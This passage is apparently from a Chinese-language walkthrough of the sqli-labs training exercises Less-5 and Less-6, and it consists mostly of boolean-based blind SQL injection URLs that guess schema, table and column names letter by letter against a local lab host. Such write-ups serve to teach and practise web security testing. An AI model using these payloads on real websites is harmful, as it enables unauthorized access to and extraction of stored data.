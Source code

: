 ```
http://192.168.81.135/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 1,1),1,1)) >1--+
```

![image-20211211151124826](https://gitee.com/xxb667/img/raw/master/img/image-20211211151124826.png)

```
http://192.168.81.135/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 1,1),1,1)) =117--+
```

![image-20211211151222913](https://gitee.com/xxb667/img/raw/master/img/image-20211211151222913.png)

### 注

本次猜解只是猜解了第1个字母的ascii

## Less-6--基于【"】字符型的错误回显注入

### 查看Id信息

id=“1”

```
http://192.168.81.135/sqli/Less-6/?id=1
```

![image-20211214094626060](https://gitee.com/xxb667/img/raw/master/img/image-20211214094626060.png)

### 通过二分法猜解库

```
http://192.168.81.135/sqli/Less-6/?id=1" and ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1)) >1 --+
```

![image-20211214095135220](https://gitee.com/xxb667/img/raw/master/img/image-20211214095135220.png)

结果为98

```
http://192.168.81.135/sqli/Less-6/?id=1" and ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1)) =98 --+
```

![image-20211214095304078](https://gitee.com/xxb667/img/raw/master/img/image-20211214095304078.png)

### 二分法猜解得到security下的表

```
http://192.168.81.135/sqli/Less-6/?id=1" and ascii(substr((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1),1,1)) >1 --+
```
